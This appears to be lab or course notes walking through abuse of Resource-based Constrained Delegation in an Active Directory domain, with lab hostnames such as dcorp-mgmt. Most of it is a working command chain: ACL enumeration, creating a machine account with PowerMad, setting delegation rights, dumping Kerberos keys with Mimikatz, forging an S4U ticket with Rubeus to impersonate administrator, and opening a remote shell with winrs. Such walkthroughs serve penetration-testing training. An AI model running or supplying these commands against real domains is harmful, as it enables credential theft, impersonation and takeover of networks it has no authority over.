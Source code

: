 
##  Resource-based Constrained Delegation moves delegation authority to the resource/service administrator. Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service. That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins. o abuse RBCD in the most effective form, we just need two privileges.
– One, control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-MachineAccountQuota is 10 for all domain users)
– Two, Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity

## Admin privileges on student VMs that are domain joined machines.Enumeration for the users with Write permissions over the machines that have RCBD!
https://gist.github.com/FatRodzianko/e4cf3efc68a700dca7cedbfd5c05c99f
## Enumeration would show that the user 'ciadmin' has Write permissions over the dcorp-mgmt machine!
`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}`

## Check the MachineAccountQuota setting for the domain and create a computer account using PowerMad:
#Check MachineAccountQuotaValue
`Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'`
#Use PowerMad to leverage MachineAccountQuota and make a new machine that we have control over
`Import-Module C:ToolsPowermad-masterPowermad.ps1`
`$password = ConvertTo-SecureString 'ThisIsAPassword' -AsPlainText -Force`
`New-MachineAccount -machineaccount dcorp-student1 -Password $($password)`


## Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for
student machines :
`$comps = 'dcorp-student1$','dcorp-student2$'`
`Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps`
## Now, let's get the privileges of dcorp-studentx$ by extracting its AESkeys:
`Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`
## Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-
mgmt as ANY user we want:
`Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt`
`winrs -r:dcorp-mgmt cmd.exe`(Because we have a TGS we cannot jump to another machine as a Domain Admin)
